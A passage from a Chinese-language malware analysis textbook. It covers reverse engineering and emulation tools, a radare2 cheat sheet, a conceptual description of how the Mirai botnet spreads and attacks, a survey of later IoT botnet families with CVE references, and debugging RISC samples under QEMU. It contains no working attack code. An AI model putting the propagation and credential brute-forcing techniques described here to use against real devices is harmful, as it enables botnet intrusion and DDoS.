

](img/Figure_11.11_B18500.jpg)

图 11.11 – Ghidra 中的多种分析选项

+   **Relyze**（商业版和演示版可用）：这是市场上的一个相对新兴的工具，支持 x86、x64 和 ARM 架构的 PE 和 ELF 文件。它拥有多个现代化特性，如控制流图、函数分析和引用、以及强大的可视化功能。

+   **Binary Ninja**（商业版和演示版可用）：这是一个强大的跨平台逆向工程平台，引入了多个先进功能，例如多线程分析。

+   **Hopper**（商业版和演示版可用）：最初为 Mac 开发，现在也支持 Windows 和 Linux 系统。除了其他功能外，它还提供反编译能力。

+   **IDA**（商业版 - 提供演示版和免费版）：这是市场上最强大、同时也是最易于使用的解决方案之一。支持的架构和文件格式种类繁多，丰富的功能还可以通过插件和脚本进一步扩展。相关的**Hex-Rays 反编译器**支持多个平台，并且能够处理 x86、x64、ARM32、ARM64 和 PowerPC 处理器的汇编语言。

这绝对不是一个详尽无遗的列表，这类工具的数量还在不断增长，工程师可以找到最适合自己需求的工具。

### 框架

这些库本应当用于开发其他工具，或者通过自定义脚本来调用它们，解决特定的工程任务：

+   **Capstorm**：这是一个轻量级的多平台反汇编引擎，支持多个架构，包括 x86、ARM、MIPS、PowerPC、SPARC 等。它原生支持 Windows 和多个*nix 系统。它的设计目的是让其他开发人员可以基于它构建逆向工程工具。除了 C 语言，它还提供了 Python 和 Java 的 API。

+   **distorm3**：这是一个用于处理 x86 或 AMD 二进制流的反汇编库。用 C 语言编写，并且提供 Python、Ruby 和 Java 的封装。

+   **Vivisect**：这是一个基于 Python 的框架，支持静态和动态分析，支持包括 PE、ELF、Mach-O 和 Blob 二进制格式在内的多种格式，适用于不同架构。它具备多个方便的功能，如程序流图、语法高亮和交叉引用支持。

+   **Miasm**：这是一个用 Python 编写的逆向工程框架，支持多种架构。它的一些有趣特性包括中间表示、所谓的**即时编译**（**JIT**）仿真、符号执行和表达式简化器。

+   **angr**：这个 Python 库是一个二进制分析框架，支持多种架构。它具有多个有趣的功能，包括控制流分析、反编译能力，以及可能最广泛使用的功能：符号执行。

+   **Metasm**：这个基于 Ruby 的引擎是一个跨架构框架，包括一个[反]汇编器、[反]编译器和文件结构操作功能。目前，支持多种架构，包括 x86、MIPS 和 PowerPC。原始的官方网站看起来有些过时，但 GitHub 项目仍然活跃。

在这个市场上，参与者众多，分析人员可能会有一个合理的问题——哪种解决方案是最好的？让我们一起尝试回答这个问题。

### 如何选择

工具的选择应始终根据相关任务和先前的知识来决定。如果目的是理解一个小的 shellcode 的功能，那么即使是像 `objdump` 这样的标准工具也可能足够。否则，通常更有意义的是掌握更强大的集成解决方案，这些解决方案支持多种架构或主要感兴趣的架构。虽然在这种情况下学习曲线会陡峭得多，但这些知识可以在后续的任务中重新应用，并最终节省大量时间。能够在一个地方进行静态和动态分析，肯定也是一个优势。

如今，开源解决方案为商业产品提供了相当不错的替代选择，因此最终的决定应该由工程师来做。如果不考虑费用，那么试用几种工具是有意义的；检查哪个工具有更好的界面、文档和社区；最终，选择最舒适的解决方案。

最后，如果你是一个开发者，旨在自动化某些任务（例如，构建一个定制的恶意软件监控系统用于 IOC 提取），那么查看开源引擎和模块是有意义的，这可以大大加速开发进程。

## 动态分析

在一个可以轻松恢复到先前状态的隔离安全环境中调试恶意代码总是有意义的。为了这些目的，工程师通常使用**虚拟机**（**VM**）或配备可以快速恢复的软件的专用物理机器。

### 跟踪器

这些工具可以用来监控在测试系统上执行的恶意软件行为：

+   `ptrace` 调用可以检查和操控目标进程的内部状态。



图 11.12 – 使用 strace 工具分析恶意软件

+   **ltrace**：这是另一个调试工具，显示应用程序对库和系统调用的调用。

+   **Frida**：这是一款动态插桩工具包，旨在供安全研究人员和开发者使用。它允许脚本注入，并随之改变和跟踪目标进程，无需源代码。

始终值得记住，行为分析技术通常只能产生有限的结果，并且在大多数情况下，应该谨慎与静态分析结合使用，以便全面理解。

### 网络监控器

这些工具拦截网络流量，可以为分析人员提供有关恶意软件行为的宝贵洞察：

+   **tcpdump**：一个标准的网络流量捕获和分析工具

+   **wireshark 或 tshark**：一个免费的网络协议分析工具，能够录制网络流量。

录制的网络流量可以在多个工程师之间共享，以加速分析过程（如果需要的话）。

### 调试器

调试器提供了更多的执行过程控制，并且还可以用来实时篡改和提取数据：

+   `gdbinit`语法高亮配置文件：



图 11.13 – 在 GDB 中停在入口点并反汇编该位置的指令

+   **IDA**：IDA 附带了几个所谓的调试服务器工具，可以在所需的平台上执行并用于远程调试（在这种情况下，IDA 本身可以在不同的机器上运行）。对于 Linux 样本，IDA 支持 x86（32 位和 64 位）和 ARM（32 位）架构。

+   `radare2`提供了丰富的动态分析选项，并伴有一个支持多种输出模式的 UI。一个名为**Cutter**的项目提供了一个更适合鼠标操作的 GUI，基于其分支**rizin**。

+   `vivisect`可以用于静态和动态分析，也可以作为一个框架，通过脚本自动化多个任务。

现在，我们来谈谈模拟器。

### 二进制模拟器

该软件可用于模拟样本的指令，而不需要直接在测试机器上执行它们。对于分析恶意软件时，这在样本是为与分析平台不同的架构编译时，特别有用：

+   **libemu**：这是一个支持 x86 指令集架构的小型模拟器库。它附带一个小工具**sctest**，用于打印模拟状态。

+   `-g`参数可用于指定运行所需工具的 GDB 服务器端口。这样，可以使用各种调试器连接到它（见下文示例）。

+   **Unicorn**：这是一个强大的基于 QEMU 的跨平台 CPU 仿真引擎，支持多种架构，包括 x86、ARM、MIPS、SPARC 和 PowerPC：



图 11.14 – 一个基于 Unicorn 的示例代码，用于模拟 Shellcode

+   **Qiling**：一个基于 Unicorn 引擎的高级二进制仿真框架，支持多种架构及相关的可执行文件格式。

最后，作为一个示例，我们来讨论如何使用`radare2`进行静态和动态分析。

## radare2 备忘单

许多初学者在使用 `radare2` 时会因为命令和快捷键的数量庞大而感到困惑。然而，实际上不必将其作为 GDB 的替代品来使用。`radare2` 提供了非常方便的图形界面，可以像使用 IDA 或其他高级商业工具一样使用。此外，还有多个第三方用户界面可供选择。首先，为了启用调试，应该使用 `-d` 命令行参数打开示例程序，如下所示：

```
r2 -d sample.bin
```

以下是支持的一些常用命令列表（所有命令区分大小写）：

+   `:` 键)。

+   `?`: 显示帮助。有关某个特定命令（以及所有带有该前缀的命令）的详细信息，可以通过在命令后加上 `?` 来获取，例如，`dc?`。

+   `?*~...`: 允许通过所有帮助命令进行轻松的交互式导航。最后三个点应按原样输入，而非替换为其他内容。

+   `ie`: 列出可用的入口点。

+   `iS`: 列出段。

+   `aa/aaa/aaaa`: 以不同的详细程度分析函数。

+   `afl`: 列出函数（需要首先执行 `aa` 命令）。

+   `iz/izz`: 列出数据段中的字符串（通常是 `.rodata` 段）以及整个二进制文件中的字符串（通常会产生大量垃圾数据）。

+   `ii`: 列出可用的导入。

+   `is`: 列出符号。

+   `dc`: 继续执行。* `dcr`、`dcs` 或 `dcf`: 分别继续执行直到 `ret`、`syscall` 或 `fork`。* `ds` 或 `dso`: 步进执行或者跨过。* `dsi`: 继续执行直到条件匹配，例如，`dsi eax==5,ebx>0`。* `db`: 列出断点（无参数时）或者设置断点（带地址参数时）。* `db-`、`dbd` 或 `dbe`: 分别移除、禁用和启用断点。* `dbi`、`dbid` 或 `dbie`: 列出、禁用和启用断点，但使用它们在列表中的索引，这样可以节省时间，因为不再需要输入对应的地址。* `drx`: 修改硬件断点。* `dr`: 显示寄存器或更改指定寄存器的值。* `/`、`/w`、`/x`、`/e` 或 `/a`: 分别搜索指定的字符串、宽字符串、`hex` 字符串、正则表达式或汇编操作码（可以查看 `/?` 获取更多选项）。* `px` 或 `pd`: 分别打印 `hexdump` 或反汇编，例如，`pd 5 @eip` 打印当前程序计数器的五行反汇编。* `w` 或 `wa`: 分别将字符串或操作码写入由 `@` 前缀指定的地址。* `afn`: 重命名函数。* `afvn`: 重命名参数或局部变量。* `CC`: 列出或编辑注释。* `;`: 命令分隔符，允许将多个命令链式执行。* `|`: 将命令输出通过管道传递给 shell 命令。* `~`: 使用 `grep`，例如，`f~abc` 和 `f|grep abc` 基本上完成相同的任务！图 11.15 – radare2 支持的命令示例


图 11.15 – radare2 支持的命令示例

`V` 命令：

+   `?`：帮助。

+   `V`：进入图形模式（对那些习惯使用 IDA 的人特别有用）。

+   `!`：进入可视面板模式。它仅支持有限的热键集。

+   `q`：返回到上一个可视模式或命令行。

+   `p` 或 `P`：在打印模式之间向前或向后切换，例如 *hex*、*disasm* 或 *debug*。

+   `/`：高亮显示指定的值。

+   `:`：进入通用命令。

+   `.`：寻址到程序计数器（当前指令）。*   `1-9`：在注释中跟随跳转或调用的相应快捷键编号（编号始终从显示区域的顶部开始）。*   `c`：启用或禁用光标模式，允许更详细的导航。在调试打印模式中，可以使用 `Tab` 键在窗口之间移动光标。*   `Enter`：跟随跳转或调用，无论是顶部显示的指令还是光标的当前位置。*   `o`：寻址到指定的偏移量。较新版本的 `radare2` 使用 `g` 键代替。*   `u` 或 `U`：撤销或重做寻址操作。*   `x` 或 `X`：分别搜索交叉引用和引用，并可以选择性地跳转到那里。*   `b`：显示条目列表，如函数、注释、符号、交叉引用、标志（字符串、节、导入），并使用 `Enter` 键跳转到特定值。*   `F2` 或 `FB`：设置断点*   `F7` 或 `Fs`：单步执行*   `F8` 或 `FS`：步过*   `F9`：继续执行*   `SHIFT` + `h/j/k/l` 或箭头：在光标模式下选择块，然后执行以下操作之一：

    +   `y`：复制选定的块

    +   `Y`：粘贴复制的块

    +   `i`：将块更改为指定的十六进制数据

    +   `a` 或 `A`：将块更改为指定的汇编指令*   `F` 或 `f-`：设置或取消设置标志（为选定的地址设置名称）。*   `d`：支持多种操作，例如重命名函数，并将块定义为数据、代码和函数。*   `;`：设置注释。

以下是使用 `radare2` 的可视模式进行调试的效果：



图 11.16 – 在 radare2 的可视模式中保持在恶意软件的入口点

许多工程师喜欢通过运行 `aaa` 命令（或使用 `–A` 命令行选项）来启动调试过程，以便分析函数，然后切换到可视模式并继续在其中工作，但这取决于个人喜好：



图 11.17 – 在开始实际分析之前，在 radare2 中运行 aaa 命令

现在，是时候应用所有这些知识，深入研究其中一个臭名昭著的物联网恶意软件家族——Mirai 的内部结构了。

# 了解 Mirai 及其克隆，更多内容

多年来，Windows 平台一直是攻击者的主要目标，因为它是最常见的桌面操作系统。这意味着许多初学者的恶意软件开发者会在家里用它进行实验，许多组织也会在非 IT 人员的桌面上使用它，例如，拥有财务交易访问权限的会计人员，或者可能拥有一些高敏感信息的外交人员。

就此而言，Mirai（在日语中意为*未来*）恶意软件无疑配得上它的恶名，因为它打开了一个恶意软件以前基本未曾涉足的新领域——物联网。虽然它不是第一个利用物联网的恶意软件（例如，Qbot 等其他僵尸网络在它之前就已存在），但它的活动规模清楚地向所有人展示了如何硬编码的凭据，例如*root/123456*，会在被忽视的智能设备上带来多么严重的威胁——当成千上万台受感染的设备突然开始对世界各地的无辜组织发起 DDoS 攻击时。更糟糕的是，Mirai 的作者将其源代码公开，导致短时间内出现了多个克隆版本。以下是发布的项目结构：


图 11.18 – Mirai 源代码示例，已在 GitHub 上公开

在本节中，我们将把所获得的知识付诸实践，熟悉这种恶意软件所使用的行为模式。

## 高级功能

幸运的是，对于逆向工程师而言，恶意软件作者提供了良好的功能描述，并附带源代码，甚至修正了之前分析该代码的工程师所犯的一些错误。

### 传播

该机器人扫描 IP 地址，选取伪随机的 IP 地址范围（某些范围被排除），并使用 TCP SYN 数据包异步地进行扫描，以便首先找到具有开放默认 Telnet 端口的目标候选者。以下是源代码中的表现形式：



图 11.19 – Mirai 恶意软件排除几个 IP 范围的扫描

然后，恶意软件使用一对对硬编码凭据暴力破解对已发现候选机器的访问。成功的结果会传送到服务器进行负载均衡，所有数据都会存储在数据库中。随后，服务器激活一个加载器模块，验证系统并通过`wget`或`tftp`工具传送机器人有效载荷，如果这些工具不可用，则使用一个小型嵌入式下载器。该恶意软件具有多个预编译的二进制有效载荷，支持多种不同的架构（ARM、MIPS、SPARC、SuperH、PowerPC 和 m68k）。之后，循环继续，刚刚部署的机器人将继续寻找新受害者。

### 武器

该恶意软件的主要目的是按需组织 DDoS 攻击。支持多种攻击技术，包括以下几种：

+   UDP 洪水

+   SYN 洪水

+   ACK 洪水

+   GRE 洪水

+   HTTP 洪水

+   DNS 洪水

这是 Mirai 源代码中的一段，提到了它们：



图 11.20 – Mirai 恶意软件的不同攻击向量

正如我们所见，作者实现了多种选项，以便他们可以选择对特定受害者最有效的攻击方式。

### 自我防护

原版的 Mirai 在重启后无法存活。相反，恶意软件会终止与 Telnet、SSH 和 HTTP 端口相关的软件，以防止其他恶意软件通过相同方式进入，同时也阻止合法的远程管理活动。这样做使得修复过程变得复杂。它还会尝试杀死同一设备上存在的竞争性机器人，例如 Qbot 和 Wifatch。

此外，恶意软件使用`prctl`系统调用和`PR_SET_NAME`参数隐藏其进程名称，并使用`chroot`更改根目录，从而避免通过该特征被检测到。此外，硬编码的凭证和实际的 C&C 地址也被加密，因此它们不会以明文形式出现在所用的字符串中。

## 后续派生版本

首先，需要注意的是，并非所有 Mirai 的修改版本最终都会有一个公开的唯一名称；通常，它们中的许多会归入同一个通用的 Mirai 类别。例如，2016 年 11 月，Mirai 的一个变种通过 TCP 端口`7547`（`TR-069/CWMP`）使用 RCE 攻击传播，攻击的是 DSL 调制解调器。

下面是一些其他已知的借用了 Mirai 源代码的僵尸网络的例子：

+   **Satori**（日语中意味着“理解”或“领悟”）：它利用漏洞进行传播，例如，CVE-2018-10562，攻击 GPON 路由器，或 CVE-2018-10088，攻击 Xiongmai 软件。

+   **Masuta 或 PureMasuta**（日语中意味着“主人”）：这个恶意软件利用 D-Link HNAP 中的一个漏洞，显然与 Satori 的创建者相关。

+   **Okiru**（日语中意味着“起床”）：它使用自己配置和漏洞进行传播（例如，CVE-2014-8361，针对 Realtek SDK，和 CVE-2017-17215，针对华为路由器）。它还增加了对 ARC 处理器的支持。

+   **Owari**和**Sora**（分别是日语中的“终结”和“天空”）：这两个项目与同一个作者相关，该作者以“Wicked”这个昵称为人所知。Owari 最初用于凭证暴力破解以进行传播，后来随着多个漏洞的加入得到了升级，例如 CVE-2017-17215。

还存在其他僵尸网络，且通常一些独立的恶意软件也会使用 Mirai 源代码的部分内容，这可能会混淆归因。有多个修改版本，不同的行为者会将其融入他们的克隆中，包括以下几种：

+   **改进的 IP 范围跳过**：一些恶意软件家族会忽略属于大型 VPS 提供商的 IP 范围，因为许多研究人员会将蜜罐部署在这些 IP 上。

+   **扩展的硬编码凭证列表**：攻击者不断探索新的设备并将提取的凭证加入他们的列表，甚至使这些凭证可更新。

+   **更多的目标协议**：除了 Telnet，现代 Mirai 克隆也针对许多其他服务，如 TR-069，并且不介意使用漏洞进行攻击。

+   **新的攻击向量**：随着时间的推移，攻击载荷的列表也在不断扩展。

+   **增加的持久化机制**：一些克隆添加了持久化技术，以便在常规重启和基本修复程序后仍然存活。

现在，让我们谈谈其他著名的 IoT 恶意软件家族。

## 其他广泛传播的家族

虽然 Mirai 因其攻击规模而变得极为著名，但在它之前和之后也存在多个独立项目。它们中的一些后来将 Mirai 的代码片段纳入其中，以扩展其功能。

以下是一些最臭名昭著的 IoT 恶意软件家族以及它们大致的公开时间。所有这些恶意软件大致可以分为两类。

以下类别包含那些实际上旨在造成危害的恶意软件：

+   **TheMoon**（~2014）：最初通过 Linksys 路由器的漏洞进行传播，后来扩展支持其他设备，例如通过 CVE-2014-9583 支持 ASUS。最初作为 DDoS 僵尸网络，它后来通过新模块进行扩展。例如，它后来开始提供代理功能。

+   **Lightaidra**（~2014）：通过暴力破解凭证进行传播，通过 IRC 与 C&C 通信，并执行 DDoS 攻击。源代码公开可用。

+   **Qbot/BASHLITE/Gafgyt/LizardStresser/Torlus**（~2014）：原始版本出现在 2014 年，通过 Shellshock 漏洞进行传播，旨在用于 DDoS 攻击。源代码在 2015 年泄露，导致了多个克隆版本的出现。

+   **海啸/Kaiten**（多年来发生了显著演变）：这是另一个具有日本名称的 DDoS 恶意软件家族（*kaiten* 意为 *旋转*），它仍然使用已经不那么流行的 IRC 协议与 C&C 进行通信。除了硬编码的凭证外，它还积极探索新的传播方法，包括利用漏洞。

+   **LuaBot**（~2016）：这是一个用 Lua 编写的 DDoS 僵尸网络，主要通过已知漏洞进行传播。

+   **Imeij**（~2017）：另一个以 DDoS 为目标的恶意软件，它通过 CGI 漏洞传播，主要针对 AVTech 监控设备。

+   **Persirai**（~2017）：主要集中在摄像头，通过 Web 界面访问它们，专门进行 DDoS 攻击。

+   **Reaper/IoTroop**（~2017）：这个僵尸网络因利用至少九个已知漏洞攻击各种设备而臭名昭著，并且与 Mirai 共享一些代码库。

+   **Torii** (~2018)：由于最早的攻击记录来自 Tor 节点，因此得名 Torii。Torii 是日语中指神社入口处的鸟居。该恶意软件据称专注于数据外泄，采用了多种持久性和反逆向工程技术。由于用于与 C&C 通信的 FTP 凭证是硬编码的，研究人员立即访问了其后台，包括日志。

+   **Muhstik** (~2018)：除了 DDoS 攻击外，这个僵尸网络还专注于加密货币挖掘。

+   **Echobot** (~2019)：该 Mirai 后继者瞄准了超过 50 个不同的漏洞，比仅仅使用与其克隆体中常见模块不同的文件名要进步得多。

+   **Mozi** (~2019)：基于 DHT 协议构建自己的 P2P 网络，这个僵尸网络利用了多个先前泄露的僵尸网络的部分源代码，并结合了原始代码：



图 11.21 – Mozi 恶意软件滥用的一些公共 DHT 服务器

+   **Dark Nexus** (~2020)：该僵尸网络主要专注于 DDoS 攻击，具有独特的评分系统，旨在高效地击败竞争对手的样本。

+   **Meris** (~2021)：这个僵尸网络因发起对 Brian Krebs 网站的攻击而出名，这次攻击的规模远超 Mirai 最初发动的攻击。

+   **BotenaGo** (~2021)：与许多其他物联网恶意软件家族不同，这款恶意软件是用 Go 语言编写的，并且附带了几十个漏洞。与 Mirai 类似，它的源代码现在已经公开发布在 Github 上。

然后，还有一些恶意软件，作者的意图据称是为了让世界变得更好。以下是这类家族的一些例子：

+   **Carna** (~2012)：作者的目标是测量互联网的规模，特别是在 IPv6 协议被采纳之前，互联网尚未变得过于复杂。

+   **Wifatch** (~2014)：这是一款开源恶意软件，旨在保护设备。一旦渗透成功，它会清除已知恶意软件并禁用 Telnet 访问，给设备所有者留下消息，提醒他们更新设备。

+   **Hajime** (~2017)：另一个拥有日本名字的恶意软件（意为*开始*），其包含一条签名信息，声明作者的目标是保护设备。

+   **BrickerBot** (~2017)：令人惊讶的是，根据作者的说法，它是为了摧毁不安全的设备，并通过这种方式摆脱这些设备，最终使互联网更安全。

现在，来谈谈如何分析为不同架构编译的样本。

# 静态与动态分析 RISC 样本

通常来说，找到针对更广泛架构的工具，比如 x86，往往会更容易。不过，仍然有很多工具可以用来分析为其他指令集构建的样本。作为经验法则，始终检查是否可以获取为你更熟悉的架构编译的相同样本。这样，你可以节省大量时间，并提供更高质量的报告。

所有基本工具，如文件类型检测器以及数据雕刻工具，很可能会处理当前存在的大多数架构相关的样本。`radare2` 在大多数情况下也会处理静态分析部分，无论宿主架构如何。如果工程师能够访问物理 RISC 机器来运行相应的样本，那么总是可以在那里使用 GDB（或其他支持的调试器）进行调试，或者使用 **gdbserver** 工具通过网络让其他调试器从首选平台连接到它：



图 11.22 – IDA 处理一个针对 SPARC 架构的 Mirai 克隆样本

这是如何使用 `radare2` 分析类似 Mirai 的样本：



图 11.23 – radare2 处理同一个 Mirai 克隆样本，针对 PowerPC 架构

现在，让我们详细了解当前 IoT 恶意软件主要针对的最流行的 RISC 架构。

## ARM

随着时间的推移，所有旨在支持除 x86 外其他架构的静态分析工具，通常都会从 32 位 ARM 开始，因此对于它来说，通常更容易找到好的解决方案。由于 64 位 ARM 是最近才推出的，因此对它的支持仍然相对有限。不过，除了 IDA 和 `radare2`，像 Relyze、Binary Ninja 和 Hopper 等工具也支持它。

然而，这在动态分析中尤为重要。例如，目前，IDA 仅提供 32 位 ARM 架构的 Linux 调试服务器。虽然获取并使用物理 ARM 机器来运行样本可能比较耗时，但这里的一个可能解决方案是使用 QEMU 并在基于 x86 的机器上运行 GDB 服务器：

```
qemu-arm -g 1234 ./binary.arm
```

